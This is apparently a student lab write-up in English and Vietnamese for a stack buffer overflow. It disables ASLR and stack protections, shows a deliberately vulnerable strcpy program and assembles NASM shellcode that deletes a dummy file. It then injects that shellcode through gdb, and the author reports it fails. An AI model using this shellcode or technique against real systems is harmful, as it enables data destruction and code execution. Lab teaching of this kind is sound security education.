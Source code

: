 ## vuln(inject shell code file_del)
### Prepare for the lab environment:
1. Turn off OS's address space layout randomization (`sudo sysctl -w kernel.randomize_va_space=0`)<br>
(Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên khi load chương trình của HĐH)<br>
2. Compile program with options to defeat stack protecting mechanism and code execution on stack:<br>
(Biên dịch chương trình c với các option tắt cơ chế bảo vệ stack và cho phép thực thi code trên stack)<br>
`$> gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`<br>
3. Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04:<br>
`$> sudo ln -sf /bin/zsh /bin/sh`<br>

Source code:
```
#include<stdio.h>
#include<string.h>
int main(int argc, char* argv[])
{
    char buf[64];
    if (argc==1)
        printf("missing argument\n");
    else
        strcpy(buf,argv[1]);
    //printf("buf: 0x%x\n",(unsigned int)buf);
    return 0;
}
```
**vuln.c**
```
; delete dummyfile in nasm

section .text
global _start
_start:
    jmp short ender
starter:
    mov eax,10
    mov ebx,_filename
    int 0x80
_exit:
    mov eax,1
    int 0x80

ender:
    call starter
_filename:
    db 'dummyfile',0
```
**file_del.asm**

Complie by gcc:
`gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack`


Run file_del: 
`nasm -g -f elf file_del.asm`
`ld -m elf_i386 -o file_del file_del.o`
![compile vuln](./imgs/file_del1.png)

Run this command to get shellcode from `file_del`:
`for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`
![shellcode](./imgs/file_del2.png)

Use `gdb` to run program:
`gdb vuln.out -q`
![gdb](./imgs/file_del3.png)

break at 2 points:
`0x08048441`
`0x0804846b`
<br> Run program: <br>
`gdb-pead$ r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00' + 'a'*32 + '\xff\xff\xff\xff')")`
![](./imgs/file_del4.png)
<br> Continue: `gdb-peda$ c` <br>
![](./imgs/file_del5.png)
<br> `x/80xb $esp` to check stack <br>
We got some problem in shellcode. It's wrong when running program.
